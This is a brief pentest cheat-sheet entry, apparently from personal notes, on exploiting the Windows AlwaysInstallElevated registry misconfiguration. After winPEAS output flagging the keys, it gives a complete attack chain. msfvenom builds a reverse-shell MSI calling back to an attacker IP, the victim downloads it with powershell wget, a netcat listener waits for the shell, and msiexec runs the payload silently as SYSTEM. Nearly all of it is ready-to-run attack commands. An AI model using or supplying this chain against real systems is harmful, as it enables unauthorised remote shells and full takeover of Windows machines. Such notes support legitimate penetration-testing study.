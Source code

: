 # AlwaysInstallElevated

winpeas outputs :

```
[+] Checking AlwaysInstallElevated
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated                                             
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

**These registry keys tell windows that a user of any privilege can install .msi files are NT AUTHORITY\SYSTEM. So all you need to do is create a malicious .msi file, and run it.**

```bash
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=$attacker_ip LPORT=443 -f msi -o rev.msi
python -m SimpleHTTPServer 80

# on the windows victim
powershell wget http://$attacker_ip/rev.msi

# on attacker
nc -lvnp 443

# on victim
msiexec /quiet /qn /i rev.msi
```
